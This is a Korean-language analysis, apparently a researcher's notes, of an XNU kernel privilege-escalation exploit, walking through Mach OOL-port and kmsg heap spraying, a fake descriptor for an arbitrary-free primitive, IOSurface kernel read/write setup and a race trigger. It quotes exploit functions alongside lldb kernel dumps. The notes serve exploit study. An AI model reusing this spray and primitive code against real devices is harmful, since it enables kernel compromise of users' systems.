## 1-2. `spray_default_kalloc_ool_ports(0x4000, 1, ool_ports)`

KHEAP_DEFAULT 타입으로 OOL 포트를 스프레이하는 코드이다. 실질적으로 `spray_default_kalloc_ool_ports_with_data_kalloc_size(0x4000, 1, ool_ports, 0x4000);`을 호출하며, 거기서 `mach_msg_send` 함수를 통해 보낼 메시지를 구성한다. 

메시지를 구성하는 중 누구한테 보내질지를 지정하는 포트 이름인 `msgh_remote_port` 필드를 살펴보면, `MPO_INSERT_SEND_RIGHT` 옵션과 함꼐 `mach_port_construct` 함수를 통해 생성된 포트로 지정되있다.

각 구성 설정들을 간략히 보자면,

- `msg->hdr.msgh_bit` - 수신자에게 송신 권한을 부여하기 위해 `MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0)`로 해두고,  메시지 본문에 추가적인 포트 권한(port rights)이나 **out-of-line 메모리 영역**이 포함되있을 경우 `MACH_MSGH_BITS_COMPLEX`  플래그가 필요하기에 같이 지정해두었다.
- `msg->desc.type` - 메시지에서 OOL 포트 배열을 보내는 설명자인 `MACH_MSG_OOL_PORTS_DESCRIPTOR` 가 지정되있다.

```c
mach_port_t *spray_default_kalloc_ool_ports(unsigned int size, unsigned int count, mach_port_t *ool_ports)
{
    return spray_default_kalloc_ool_ports_with_data_kalloc_size(size, count, ool_ports, 0x4000);
}

mach_port_t *spray_default_kalloc_ool_ports_with_data_kalloc_size(unsigned int size, unsigned int count, mach_port_t *ool_ports, unsigned int data_kalloc_size)
{
    struct default_msg
    {
        mach_msg_header_t hdr;
        mach_msg_body_t body;
        mach_msg_ool_ports_descriptor_t desc;
    };
    
    mach_port_t *ports = calloc(sizeof(mach_port_t), count);
    mach_port_options_t options = { .flags = MPO_INSERT_SEND_RIGHT };
    struct default_msg *msg = (struct default_msg *)calloc(1, 0x100);
    
    msg->hdr.msgh_bits = MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_bits  |= MACH_MSGH_BITS_COMPLEX;
    msg->hdr.msgh_size = data_kalloc_size;
    msg->body.msgh_descriptor_count = 1;
    
    msg->desc.deallocate = 0;
    msg->desc.type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
    msg->desc.copy = MACH_MSG_VIRTUAL_COPY;
    msg->desc.disposition = MACH_MSG_TYPE_COPY_SEND;
    msg->desc.count = size/8;
    msg->desc.address = (void *)ool_ports;
    
    for (unsigned int i = 0; i < count; ++i)
    {
        mach_port_construct(mach_task_self(), &options, 0, &ports[i]);
    }
    
    for (unsigned int i = 0; i < count; ++i)
    {
        msg->hdr.msgh_remote_port = ports[i];
        kern_return_t kr = mach_msg_send((mach_msg_header_t *)msg);
        if (kr) {
            *(int *)1 = 0;
        }
    }
    
    free(msg);

    return ports;
}
```

### `mach_msg_send`

`mach_msg_send` 함수는 내부적으로 커널의 `mach_msg_overwrite_trap` 함수를 호출한다. ([osfmk/ipc/mach_msg.c#L319](https://github.com/apple-oss-distributions/xnu/blob/xnu-8019.41.5/osfmk/ipc/mach_msg.c#L319))

보내는 메시지 구성이 `MACH_MSG_TYPE_MAKE_SEND`이 포함되있으므로, 
`if (option & MACH_SEND_MSG) {` 문 코드부터 차례대로 살펴보면 아래의 함수들을 순서대로 호출한다.

1. 커널 메시지 버퍼를 할당하고 사용자 메시지를 메시지 버퍼로 복사해주는 `ipc_kmsg_get_from_user`
2. 메시지 내의 포트 권한(port rights)과  OOL 메모리를 copy-in해주는 `ipc_kmsg_copyin_from_user`
3. 그리고 `msgh_remote_port` 필드 내에 대상 포트에 대한 참조(reference)를 보유한 메시지를 전송하는 `ipc_kmsg_send` 

```c
mach_msg_return_t
mach_msg_overwrite_trap(
	struct mach_msg_overwrite_trap_args *args)
{
	mach_vm_address_t       msg_addr = args->msg;
	mach_msg_option_t       option = args->option;
	mach_msg_size_t         send_size = args->send_size;
	mach_msg_size_t         rcv_size = args->rcv_size;
	mach_port_name_t        rcv_name = args->rcv_name;
	mach_msg_timeout_t      msg_timeout = args->timeout;
	mach_msg_priority_t     priority = args->priority;
	mach_vm_address_t       rcv_msg_addr = args->rcv_msg;
	__unused mach_port_seqno_t temp_seqno = 0;

	mach_msg_return_t  mr = MACH_MSG_SUCCESS;
	vm_map_t map = current_map();

	/*
	 * Only accept options allowed by the user.  Extract user-only options up
	 * front, as they are not included in MACH_MSG_OPTION_USER.
	 */
	bool filter_nonfatal = (option & MACH_SEND_FILTER_NONFATAL);

	option &= MACH_MSG_OPTION_USER;

	if (option & MACH_SEND_MSG) {
		ipc_space_t space = current_space();
		ipc_kmsg_t kmsg;

		mr = ipc_kmsg_get_from_user(msg_addr, send_size, &kmsg);

		if (mr != MACH_MSG_SUCCESS) {
			return mr;
		}

		mr = ipc_kmsg_copyin_from_user(kmsg, space, map, priority, &option,
		    filter_nonfatal);

		if (mr != MACH_MSG_SUCCESS) {
			ipc_kmsg_free(kmsg);
			goto end;
		}

		mr = ipc_kmsg_send(kmsg, option, msg_timeout);

		if (mr != MACH_MSG_SUCCESS) {
			//...
			goto end;
		}
	}
	//...

end:
	ipc_port_thread_group_unblocked();
	return mr;
}
```

## 1-3. `spray_data_kalloc_kmsg_single(kheap_data_spray_buf, KMSG_SIZE)`

KHEAP_DATA_BUFFERS 타입으로 kmsg를 스프레이하는 코드이다. 
이전에 OOL 포트 스프레이할때보다 `mach_msg_send` 함수를 통해 보낼 메시지를 구성 설정할게 비교적 없다.

```c
mach_port_t spray_data_kalloc_kmsg_single(uint8_t *data, unsigned int size)
{
    mach_port_t port = MACH_PORT_NULL;
    mach_port_options_t options = { .flags = MPO_INSERT_SEND_RIGHT };
    mach_msg_header_t *msg = (mach_msg_header_t *)data;
    
    memset(msg, 0, sizeof(mach_msg_header_t));
    msg->msgh_bits = MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->msgh_size = size;
    
    mach_port_construct(mach_task_self(), &options, 0, &port);

    msg->msgh_remote_port = port;
    mach_msg_send(msg);
    
    return port;
}
```

## 1-4. 커널에 스프레이된 데이터 살펴보기

### OOL 포트 스프레이되면서 포트 디스크립터 배열주소 알아내기 (KHEAP_DEFAULT)

`spray_default_kalloc_ool_ports` 함수를 한번 수행했을떄 
아래와 같이 여러 함수들을 거쳐 `ipc_kmsg_copyin_ool_ports_descriptor`에서 커널힙을 할당하려는 것을 알 수 있었다.

```c
(lldb) bt
...
            frame #6: 0xfffffe00287e8974 kernel.release.vmapple`kalloc_ext(kheap=<unavailable>, req_size=16384, flags=<unavailable>, site=<unavailable>) at kalloc.c:1730:9 [opt] //called from FFFFFE00072122B4 (no slide) 
            frame #7: 0xfffffe00287b62b8 kernel.release.vmapple`ipc_kmsg_copyin_ool_ports_descriptor(dsc=0xfffffe150e8b5b84, user_dsc=0xfffffe150e8b5b94, is_64bit=<unavailable>, map=0xfffffe002c8e77d0, space=0xfffffe150db98380, dest=0xfffffe1510ffae40, kmsg=<unavailable>, optionp=0xfffffe6019b63d34, mr=<unavailable>) at ipc_kmsg.c:3443:9 [opt] [inlined]
            frame #8: 0xfffffe00287b6274 kernel.release.vmapple`ipc_kmsg_copyin_body(kmsg=<unavailable>, space=<unavailable>, map=0xfffffe002c8e77d0, optionp=0xfffffe6019b63d34) at ipc_kmsg.c:3831:16 [opt]
            frame #9: 0xfffffe00287b5ea0 kernel.release.vmapple`ipc_kmsg_copyin_from_user(kmsg=<unavailable>, space=<unavailable>, map=<unavailable>, priority=<unavailable>, optionp=<unavailable>, filter_nonfatal=<unavailable>) at ipc_kmsg.c:3971:8 [opt]
            frame #10: 0xfffffe00287cc29c kernel.release.vmapple`mach_msg_overwrite_trap(args=<unavailable>) at mach_msg.c:362:8 [opt]
            frame #11: 0xfffffe00288f9b2c kernel.release.vmapple`mach_syscall(state=0xfffffe1510f6ddd0) at bsd_arm64.c:276:11 [opt]
            frame #12: 0xfffffe0028902e78 kernel.release.vmapple`handle_svc(state=0xfffffe1510f6ddd0) at sleh.c:2411:3 [opt] [inlined]
            frame #13: 0xfffffe0028902e0c kernel.release.vmapple`sleh_synchronous(context=0xfffffe1510f6ddd0, esr=<unavailable>, far=5368741888) at sleh.c:743:3 [opt]
            frame #14: 0xfffffe002879479c kernel.release.vmapple`fleh_synchronous + 40
            frame #15: 0x00000001a5721954
            frame #16: 0x000000010004a168 // called _mach_msg_send from _spray_default_kalloc_ool_ports_with_data_kalloc_size (exp)
            frame #17: 0x00000001000489e8 // called _spray_default_kalloc_ool_ports from _exploitation_init
            frame #18: 0x0000000100048dbc // called _exploitation_init from _exploit_get_krw_and_kernel_base
            frame #19: 0x0000000100048ebc // called _exploit_get_krw_and_kernel_base from _main
            frame #20: 0x00000001001b50f4 
```

그렇다면 할당된 주소는 어떻게 알아낼 수 있을까?

`kheap_default_ports` 배열에는 스프레이했던 메시지 구성 중 누구한테 보내질지를 지정하는 `msgh_remote_port` 포트들이 담겨있다. 
해당 포트들 중 0번쨰 인덱스, 즉 처음 스프레이한 포트를 참고하여 커널의 `ipc_port` 구조체 주소부터 알아내보자.

```c
uint64_t proc_task(uint64_t proc) {
    uint64_t task = tfp0_kread64(proc + off_p_task);
    return task;
}

uint64_t task_self_addr(void) {
    uint64_t proc = proc_of_pid(getpid());
    uint64_t task = proc_task(proc);
    return task;
}

...

uint64_t find_port(mach_port_name_t port) {
    uint64_t task_addr = task_self_addr();
    
    uint64_t itk_space = kextrw_kreadptr(task_addr + off_task_itk_space);
    
    uint64_t is_table = kextrw_kreadptr(itk_space + off_ipc_space_is_table);
    
    uint32_t port_index = port >> 8;
    const int sizeof_ipc_entry_t = 0x18;
    
    uint64_t port_addr = kextrw_kreadptr(is_table + (port_index * sizeof_ipc_entry_t));
    return port_addr;
}
```

그리고 확인해보면, 다음과 같다.

`find_port(kheap_default_ports[0]) = 0xfffffe15117b000`

`ipc_port_t` 주소인 `0xfffffe15117b000`부터 시작헤서 `ikmq_base` 필드를 따라가면, `ipc_kmsg` 구조체 주소가 획득할 수 있다. 여기서 `ikm_header` 필드를 따라가면 `mach_msg_header_t` 구조체 주소를 획득할 수 있다. 

```c
(lldb) p/x *(ipc_port*)0xfffffe15117b0000
(ipc_port) {
  ip_object = (io_bits = 0x80000000, io_references = 0x00000002)
   = {
     = {
      ip_waitq_type = 0x00000001
      ip_waitq_fifo = 0x00000001
      ...
    }
    ip_waitq = {
       = {
        waitq_type = 0x00000001
        waitq_fifo = 0x00000001
        ...
      }
      waitq_interlock = {
         ={...}
        lck_value = 0x04040144
      }
      ...
    }
  }
  ip_messages = {
    imq_messages = {
      ikmq_base = **0xfffffe1511711d00**
    }
    imq_seqno = 0x00000000
    imq_receiver_name = 0x00002803
    imq_msgcount = 0x0001
    imq_qlimit = 0x0005
    ...
  }
   = {
    ip_receiver = (actual=0xfffffe1510fcc080) 0x169e7e1510fcc080
    ip_destination = (actual=0xfffffe1510fcc080) 0x169e7e1510fcc080
    ip_timestamp = 0x10fcc080
  }
  ...
  ip_context = 0x0000000000000000
  ip_impcount = 0x00000000
  ip_mscount = 0x00000002
  ip_srights = 0x00000002
  ip_sorights = 0x00000000
   = {
    ip_kolabel = NULL
    ip_splabel = (actual=0x0) 0x0000000000000000
  }
}
```

```c
(lldb) p/x *(ipc_kmsg*)0xfffffe1511711d00
(ipc_kmsg) {
  ikm_next = 0xfffffe1511711d00
  ikm_prev = 0xfffffe1511711d00
   = {
    ikm_prealloc = NULL
    ikm_data = (actual=0x0) 0x0000000000000000
  }
  ikm_header = (actual=0xfffffe1511711d60) 0xb6a0fe1511711d60
  ikm_voucher_port = NULL
  ikm_importance = NULL
  ikm_inheritance = {
    next = NULL
    prev = NULL
  }
  ikm_turnstile = NULL
  ikm_size = 0x000000a0
  ikm_ppriority = 0x00000000
  ikm_signature = 0x6f9359dc00000000
  ikm_flags = 0x0000
  ikm_qos_override = 0x00
  ikm_voucher_type = 0x00000000
  ikm_inline_data = {}
}
```

```c
(lldb) p/x *(mach_msg_header_t*)0xfffffe1511711d60
(mach_msg_header_t) {
  msgh_bits = 0x80000011
  msgh_size = 0x00000058
  msgh_remote_port = 0xfffffe15117b0000
  msgh_local_port = NULL
  msgh_voucher_port = 0x00000000
  msgh_id = 0x00000000
}
```

`mach_msg_header_t` 구조체 주소에 + 0x24 오프셋을 더해 읽었을때 어떤 한 커널 주소가 보이는데, 
**해당 주소가 바로 스프레이에 의해 KHEAP_DEFAULT 타입으로 할당된 커널 주소, 
즉 OOL 포트 디스크립터 배열의 주소이다.**

```c
(lldb) x/gx 0xfffffe1511711d60+0x24
0xfffffe1511711d84: 0xfffffe2286e88000
```

익스플로잇 코드의 `spray_default_kalloc_ool_ports_with_data_kalloc_size` 함수 중 `msg->desc.count`를 `0x4000/8`로 지정했기 때문에 **ool 포트 디스크립터 배열**을 생성할때 할당된 힙크기는 0x4000이다.

그리고 그 배열에는 또 하나의 커널 주소가 보인다.

```c
(lldb) x/800gx 0xfffffe2286e88000 --force
0xfffffe2286e88000: 0xfffffe15107d38e0 0x0000000000000000
...
```

해당 커널 주소는 익스플로잇 코드의 `spray_default_kalloc_ool_ports_with_data_kalloc_size` 함수 중 `msg->desc.address` 코드에서 지정되었던 `ipc_port` 포트 주소로써 OOL 포트 주소이다. (즉 `contained_port[0]`의 커널 포트 주소와 같음)

```c
(lldb) p/x *(ipc_port_t)0xfffffe15107d38e0
(ipc_port) {
  ip_object = (io_bits = 0x80000000, io_references = 0x00000002)
   = {
     = {
      ip_waitq_type = 0x00000001
      ip_waitq_fifo = 0x00000001
      ...
    ip_waitq = {
       = {
        waitq_type = 0x00000001
        waitq_fifo = 0x00000001
        ...
      }
      waitq_interlock = {
         ={...}
        lck_value = 0x02020144
      }
      ...
    }
  }
  ip_messages = {
    imq_messages = {
      ikmq_base = NULL
    }
    imq_seqno = 0x00000000
    imq_receiver_name = 0x00001607
    imq_msgcount = 0x0000
    imq_qlimit = 0x0005
    imq_context = 0x00000000
    ...
  }
   = {
    ip_receiver = (actual=0xfffffe1510fcc080) 0x448c7e1510fcc080
    ip_destination = (actual=0xfffffe1510fcc080) 0x448c7e1510fcc080
    ip_timestamp = 0x10fcc080
  }
  ...
  ip_context = 0x0000000000000000
  ip_impcount = 0x00000000
  ip_mscount = 0x00000001
  ip_srights = 0x00000002
  ip_sorights = 0x00000000
   = {
    ip_kolabel = NULL
    ip_splabel = (actual=0x0) 0x0000000000000000
  }
}
```

### 스프레이된 kmsg 주소 알아내기 (KHEAP_DATA_BUFFERS)

마찬가지로 `spray_data_kalloc_kmsg_single` 함수 역시, 
한번 수행했을떄 
아래와 같이 여러 함수들을 거쳐 `ipc_kmsg_alloc`에서 커널힙을 할당하려는 것을 알 수 있었다.

```c
(lldb) bt
        * thread #2, name = 'CPU1', stop reason = breakpoint 10.1
          * frame #0: 0xfffffe00248f88e0 kernel.release.vmapple`kalloc_ext(kheap=0xfffffe00267ab818, req_size=16332, flags=Z_WAITOK, site=0xfffffe0026e80078) at kalloc.c:1687 [opt]
            frame #1: 0xfffffe00248c3a18 kernel.release.vmapple`ipc_kmsg_alloc(size=16264, user_descs=<unavailable>, flags=<unavailable>) at ipc_kmsg.c:1288:10 [opt]
            frame #2: 0xfffffe00248c41ec kernel.release.vmapple`ipc_kmsg_get_from_user(msg_addr=<unavailable>, size=16264, kmsgp=0xfffffe6029d5bd38) at ipc_kmsg.c:1973:9 [opt]
            frame #3: 0xfffffe00248dc26c kernel.release.vmapple`mach_msg_overwrite_trap(args=<unavailable>) at mach_msg.c:349:8 [opt]
            frame #4: 0xfffffe0024a09b2c kernel.release.vmapple`mach_syscall(state=0xfffffe15105689f0) at bsd_arm64.c:276:11 [opt]
            frame #5: 0xfffffe0024a12e78 kernel.release.vmapple`handle_svc(state=0xfffffe15105689f0) at sleh.c:2411:3 [opt] [inlined]
            frame #6: 0xfffffe0024a12e0c kernel.release.vmapple`sleh_synchronous(context=0xfffffe15105689f0, esr=<unavailable>, far=4445650944) at sleh.c:743:3 [opt]
            frame #7: 0xfffffe00248a479c kernel.release.vmapple`fleh_synchronous + 40
            frame #8: 0x00000001c2755954
            frame #9: 0x000000010264df58    // called _mach_msg_send from _spray_data_kalloc_kmsg_single
            frame #10: 0x000000010264ca2c   // called _spray_data_kalloc_kmsg_single from _exploitation_init
            frame #11: 0x000000010264cde8   // called _exploitation_init from _exploit_get_krw_and_kernel_base
            frame #12: 0x000000010264cee8   // called _exploit_get_krw_and_kernel_base from _main
            frame #13: 0x00000001029cd0f4
```

처음 스프레이한 포트인 `kheap_data_ports[0]`를 참고하여 
커널의 `ipc_port` 구조체 주소부터 살펴보면 다음과 같다.

`find_port(kheap_data_ports[0]) = 0xfffffe150ff41ea0`

`ikm_header` 를 확인해봤을떄 `msgh_size` 필드가 0x3f88이므로, 
그 사이즈만큼 커널 할당이 이뤄진것을 알 수 있다.

그리고 스프레이하면서 사용자가 쓴 데이터인 `kheap_data_spray_buf`는 `ipc_kmsg` 구조체 중 `ikm_data` 필드를 통해 확인할 수 있으며, 해당 필드에 적힌 주소가 바로 **스프레이에 의해 KHEAP_DATA_BUFFERS 타입의 할당된 kmsg 커널 주소이다.**

```c
// https://github.com/apple-oss-distributions/xnu/blob/xnu-8019.41.5/osfmk/ipc/ipc_kmsg.c#L1978
...
	kmsg = ipc_kmsg_alloc(size, descriptors, IPC_KMSG_ALLOC_USER);
	if (kmsg == IKM_NULL) {
		return MACH_SEND_NO_BUFFER;
	}

	kmsg->ikm_header->msgh_size             = size;
...
```

```c
(lldb) p/x *(ipc_port*)0xfffffe150ff41ea0
(ipc_port) {
  ip_object = (io_bits = 0x80000000, io_references = 0x00000002)
   = {
     = {
      ip_waitq_type = 0x00000001
      ip_waitq_fifo = 0x00000001
      ip_waitq_irq = 0x00000000
      ...
    }
    ip_waitq = {
       = {
        waitq_type = 0x00000001
        waitq_fifo = 0x00000001
        waitq_irq = 0x00000000
        ...
      }
      waitq_interlock = {
         ={...}
        lck_value = 0x04040144
      }
      ...
    }
  }
  ip_messages = {
    imq_messages = {
      ikmq_base = 0xfffffe1510fdb100
    }
    imq_seqno = 0x00000000
    imq_receiver_name = 0x00001603
    imq_msgcount = 0x0001
    imq_qlimit = 0x0005
    ...
  }
   = {
    ip_receiver = (actual=0xfffffe1510dceb00) 0x7c88fe1510dceb00
    ip_destination = (actual=0xfffffe1510dceb00) 0x7c88fe1510dceb00
    ip_timestamp = 0x10dceb00
  }
  ...
  ip_mscount = 0x00000002
  ip_srights = 0x00000002
  ...
}
```

```c
(lldb) p/x *(ipc_kmsg*)0xfffffe1510fdb100
(ipc_kmsg) {
  ikm_next = 0xfffffe1510fdb100
  ikm_prev = 0xfffffe1510fdb100
   = {
    ikm_prealloc = (actual=0xfffffe228790c000) 0x3cf67e228790c000
    ikm_data = (actual=0xfffffe228790c000) 0x3cf67e228790c000
  }
  ikm_header = (actual=0xfffffe228790c000) 0x6efffe228790c000
  ikm_voucher_port = nullptr
  ikm_importance = nullptr
  ikm_inheritance = {
    next = nullptr
    prev = nullptr
  }
  ikm_turnstile = nullptr
  ikm_size = 0x00003fcc
  ikm_ppriority = 0x00000000
  ikm_signature = 0x1921770700000000
  ikm_flags = 0x0000
  ikm_qos_override = 0x00
  ikm_voucher_type = 0x00000000
  ikm_inline_data = {}
}
```

```c
(lldb) p/x *(mach_msg_header_t*)0xfffffe228790c000
(mach_msg_header_t) {
  msgh_bits = 0x00000011
  msgh_size = 0x00003f88
  msgh_remote_port = 0xfffffe150ff41ea0
  msgh_local_port = nullptr
  msgh_voucher_port = 0x00000000
  msgh_id = 0x00000000
}
```

`ikm_data` 필드의 커널 주소인 0xfffffe228790c000를 확인해보면, 
다음과 같은 데이터로 구성되있다.

<+0x0020, +0x0024, +0x002c>에는 `kheap_data_spray_buf`를 구성할떄에 
임의 할당해제를 위한 fake descriptor가 적힌게 그대로 반영되있다.

그리고 <0x0000~0x0020>에는 `mach_msg_header_t`, 즉 `ikm_header`헤더 데이터가 자리잡고 있다. 

```
 // fake descriptor for free primitive
    *(uint32_t *)(kheap_data_spray_buf + sizeof(mach_msg_header_t)) = 1;
    *(uint64_t *)(kheap_data_spray_buf + sizeof(mach_msg_header_t) + sizeof(uint32_t)) = KHEAP_DEFAULT_MAPPABLE_LOC; // free primitive target
    *(uint64_t *)(kheap_data_spray_buf + sizeof(mach_msg_header_t) + sizeof(uint32_t) + sizeof(uint64_t)) = 0x000007F802110000; // disposition, size, etc
```

```c
(lldb) x/2033gx 0xfffffe228790c000 --force
0xfffffe228790c000<+0x0000>: 0x00003f8800000011 0xfffffe150ff41ea0
0xfffffe228790c010<+0x0010>: 0x0000000000000000 0x0000000000000000
0xfffffe228790c020<+0x0020>: 0x8188800000000001 0x02110000fffffe22
0xfffffe228790c030<+0x0030>: 0x00000000000007f8 0x0000000000000000
0xfffffe228790c040<+0x0040>: 0x0000000000000000 0x0000000000000000
...
0xfffffe228790ff60<+0x3f60>: 0x0000000000000000 0x8cffffdb00000000
0xfffffe228790ff70<+0x3f70>: 0x00000000fffffe22 0x0000000000000000
0xfffffe228790ff80<+0x3f80>: 0x0000000000000000

(lldb) p/x *(mach_msg_header_t*)0xfffffe228790c000
(mach_msg_header_t) {
  msgh_bits = 0x00000011
  msgh_size = 0x00003f88
  msgh_remote_port = 0xfffffe150ff41ea0
  msgh_local_port = nullptr
  msgh_voucher_port = 0x00000000
  msgh_id = 0x00000000
}
```

## 1-5. 다시 돌아와서, 스프레이 코드 살펴보기

지금까지 스프레이될때 ool 포트에 해당되는 `contained_ports`,
메시지를 구성하는 `kheap_data_ports`와 `ipc_kmsg`, `ikmu_data` 내용에 대해서도 살펴봤다.

이후에 `mach_port_request_notification` 함수를 통해 
특정 포트에 대해 "이벤트(알림)를 보내 달라달라고 요청한다.

이를 테면, “포트에 더 이상 sender가 없어졌을 때 알려줘”, “포트가 파괴되었을 때 알려줘” 같은 커널 발생(notify) 메시지를 수신하기 위해 사용된다고 한다.

아래 코드의 경우, 더 이상 send-right가 없을 때(`MACH_NOTIFY_NO_SENDERS`) 커널이 `notif_port`로 알림 메시지를 보내기 위해 사용된다고 보면 될것이다.

```csharp
...
    notif_port = port_new();
    for (int i = 0; i < PORTS_COUNT; ++i)
    {
        mach_port_t prev;
        mach_port_request_notification(mach_task_self(), contained_ports[i], MACH_NOTIFY_NO_SENDERS, 0, notif_port, MACH_MSG_TYPE_MAKE_SEND_ONCE, &prev);
        mach_port_deallocate(mach_task_self(), contained_ports[i]);
    }
...
```

그 다음에는 추후 IOSurface를 통해 커널 읽기/쓰기를 수행할 것이기 때문에
아래 코드가 수행된다.

```c
    // pre-init kernel rw
    IOSurfaceClient_array_buf = malloc(0x4000);
    kernel_rw_preinit(KHEAP_DATA_MAPPABLE_LOC - 0x4000 + 0x10, IOSurfaceClient_array_buf, 0x4000);
    
    free(contained_ports);
    free(ool_ports);
    free(kheap_data_spray_buf);
    
    return 0;
}

//...
void kernel_rw_preinit(uint64_t kaddr, uint8_t *buf, size_t n)
{
    memset(buf, 0x07, n);

    *(uint64_t *)(buf + 0x10 + 0x40) = kaddr + 0x10; // IOSurfaceClient->IOSurface
    *(uint64_t *)(buf + 0x10 + 0xB0) = 1; // See IOSurface::setCompressedTileDataRegionMemoryUsedOfPlane
    *(uint64_t *)(buf + 0x10 + 0xC0 + 0x18) = kaddr + 0x20 - 0xA0; // Write destination (+0xA0 added)
    
    _mapped_address = kaddr;
}

```

## 2. `get_arb_free_holder` - race를 통한 임의해제 취약점 트리거

## 2-1. Before vs After

우선 함수를 살펴보기 전에 앞서, `get_arb_free_holder`를 수행하기 전과 수행 후의 프로파일된 `KHEAP_DEFAULT_MAPPABLE_LOC`, `KHEAP_DATA_MAPPABLE_LOC` 주소의 힙 데이터들을 비교해보았다.

`KHEAP_DEFAULT_MAPPABLE_LOC` 에 해당되는 ipc 포트의 경우: 
`ipc_port_t* port`, `ipc_kmsg* ikmq_base`, `mach_msg_header_t* ikm_data`, 그리고 OOL 포트(`contained_port`)의 `ipc_port_t* port` 전부다 구조체 필드 값들을 확인해봤을때 변함없이 그대로 똑같이 유지되있었다.

`KHEAP_DATA_MAPPABLE_LOC` 에 해당되는 ipc 포트의 경우: 

`ipc_port_t* port` 를 살펴본 결과, `ip_waitq.waitq_interlock.lck_value` 필드 값이 변경되있다. (0x04040144 → 0x05050144)



그리고  `mach_msg_header_t* ikm_data` 를 살펴보면, 
`msgh_bits` 필드값에서 상위 첫번째 바이트값이 변경되있다. (0x00000011 → 0x88000011)



뒤이어 `ikm_data`를 구성하는 내용, 
즉`KHEAP_DATA_MAPPABLE_LOC`  힙데이터의 +0x3f88 오프셋을 살펴보면 다음과 같다.

+0x3f8c 오프셋에 저장된 4바이트값이 변경되었다. (0x00000000 → 0x00000008)

이는 익스플로잇 코드에서 레이싱하는 코드 중  `port_peek_trailer_size`(kheap_data_ports[i])가 8인지 아닌지 구분하는 코드가 있던데, 그것과 관련있지 않을까 예상된다.



## 2-2. `port_peek_trailer_size`

`port_peek_trailer_size` 함수는 내부적으로 다음과 같은 설정과 함꼐 `mach_port_peek`를 호출한다.

```c
int port_peek_trailer_size(mach_port_t p)
{
    mach_port_seqno_t msg_seqno = 0;
    mach_msg_size_t msg_size = 0;
    mach_msg_id_t msg_id = 0;
    mach_msg_trailer_t msg_trailer;
    mach_msg_type_number_t msg_trailer_size = sizeof(msg_trailer);
    
    mach_port_peek(mach_task_self(),
                                  p,
                                  MACH_RCV_TRAILER_NULL,
                                  &msg_seqno,
                                  &msg_size,
                                  &msg_id,
                                  (mach_msg_trailer_info_t)&msg_trailer,
                                  &msg_trailer_size);

    return msg_trailer.msgh_trailer_size;
}
```

### `mach_port_peek`

XNU 소스코드에서 `mach_port_peek` 함수를 살펴보면, 
`max_trailer`에서 `trailer_infop`로 메모리 복사하는 것을 볼 수 있다. `max_trailer`는 `ipc_mqueue_peek_locked` 함수로부터  가져온다.

```c
kern_return_t
mach_port_peek(
	ipc_space_t                     space,
	mach_port_name_t                name,
	mach_msg_trailer_type_t         trailer_type,
	mach_port_seqno_t               *seqnop,
	mach_msg_size_t                 *msg_sizep,
	mach_msg_id_t                   *msg_idp,
	mach_msg_trailer_info_t         trailer_infop,
	mach_msg_type_number_t          *trailer_sizep)
{
//...

	/* Port locked and active */
	found = ipc_mqueue_peek_locked(&port->ip_messages, seqnop,
	    msg_sizep, msg_idp, &max_trailer, NULL);
	ip_mq_unlock(port);
	
	//...

	max_trailer.msgh_seqno = *seqnop;
	memcpy(trailer_infop, &max_trailer, *trailer_sizep);

	return KERN_SUCCESS;
}
```

`ipc_mqueue_peek_locked` 함수에서 `msg_trailerp` 로 메모리 복사하는 코드를 볼 수 있는데, 
source는 기존 `ikm_header`에서 `msgh_size`를 더한 곳부터 복사가 일어난다.

**즉, `KHEAP_DATA_MAPPABLE_LOC` 의 +0x3f88 데이터부터 0x44크기만큼 `msg_trailerp`로 메모리가 복사되며, 유저랜드에서  `mach_port_peek`함수로 해당 데이터를 가져올 수 있는것이다.**

```c
unsigned
ipc_mqueue_peek_locked(ipc_mqueue_t mq,
    mach_port_seqno_t * seqnop,
    mach_msg_size_t * msg_sizep,
    mach_msg_id_t * msg_idp,
    mach_msg_max_trailer_t * msg_trailerp,
    ipc_kmsg_t *kmsgp)
{
//...
	if (msg_trailerp != NULL) {
		memcpy(msg_trailerp,
		    (mach_msg_max_trailer_t *)((vm_offset_t)kmsg->ikm_header +
		    mach_round_msg(kmsg->ikm_header->msgh_size)),
		    sizeof(mach_msg_max_trailer_t));
	}
	//...
	return res;
}
```

```c
(lldb) p/x *(mach_msg_mac_trailer_t*)(0xfffffe228d000000+0x3f88)
(mach_msg_mac_trailer_t) {
  msgh_trailer_type = 0x00000000
  msgh_trailer_size = 0x00000000
  msgh_seqno = 0x00000000
  msgh_sender = {
    val = ([0] = 0x000001f5, [1] = 0x00000014)
  }
  msgh_audit = {
    val = ([0] = 0x000001f5, [1] = 0x000001f5, [2] = 0x00000014, [3] = 0x000001f5, [4] = 0x00000014, [5] = 0x00000170, [6] = 0x00000162, [7] = 0x0000033b)
  }
  msgh_context = 0x0000000000000000
  msgh_ad = 0x00000000
  msgh_labels = (sender = 0x00000000)
}

(lldb) p/x sizeof(mach_msg_max_trailer_t)
(unsigned long) 0x0000000000000044
```

## 2-3. `mcast_increase_race_reliability()`

